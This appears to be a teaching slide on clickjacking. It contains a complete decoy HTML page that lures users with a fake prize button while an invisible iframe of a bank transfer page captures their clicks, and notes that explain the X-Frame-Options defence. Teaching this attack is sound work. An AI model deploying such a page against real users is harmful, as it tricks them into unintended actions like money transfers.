 ```yaml
---
# class: pl-15% pr-15% pt-10%
layout: center
title: Clickjacking
---
```

<h1>Hijacking user's clicks</h1>

<Transform scale="1">

```html
<!DOCTYPE html>
<html lang="en-US">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Decoy web page</title>
</head>

<body>
  <div style="position: absolute; left: 25%; top: 5%;">
    You won! Click TOTALLY LEGIT BUTTON to get your prize!
  </div>

  <div style="position: absolute; left: 40%; top: 10%;">
    <button type="button" style="border-color: red; border-width: 2px; color: red;">
      <!-- never gets clicked since the iframe covers the entire page -->
      TOTALLY LEGIT BUTTON
    </button>
  </div>

  <!-- this iframe captures all clicks, since it covers the entire page -->
  <iframe style="opacity: 0;" width="680" height="480" scrolling="no"
    src="https://mybank/Transfer.aspx">
  </iframe>
</body>
</html>
```

<!-- A possibly legit decoy web page

The X-Frame-Options HTTP response header can be used to indicate whether or not a browser should be allowed to render a page in a `<frame>`, `<iframe>`, `<embed>` or `<object>`. Sites can use this to avoid @clickjacking (aka UI redressing)  attacks, by ensuring that their content is not embedded into other sites.

The issue here is that the target site has been loaded up within an iframe. One way to address this is via a little JavaScript in the banking website which works as follows. -->

</Transform>

<!--
Clickjacking (aka UI redressing) stands for click hijacking.

The HTML document rendered in the iframe (e.g. https://mybank/Transfer.aspx) could even be a legit website, but it's rendered in a decoy web page that tricks the user into clicking on a button/link that the user does not see.

- [Clickjacking (UI redressing)](https://portswigger.net/web-security/clickjacking)
- [Clickjack attack – the hidden threat right in front of you](https://www.troyhunt.com/clickjack-attack-hidden-threat-right-in/)

An HTTP header that start with an "X-" is not part of the HTTP spec. Such header is called custom header.
-->

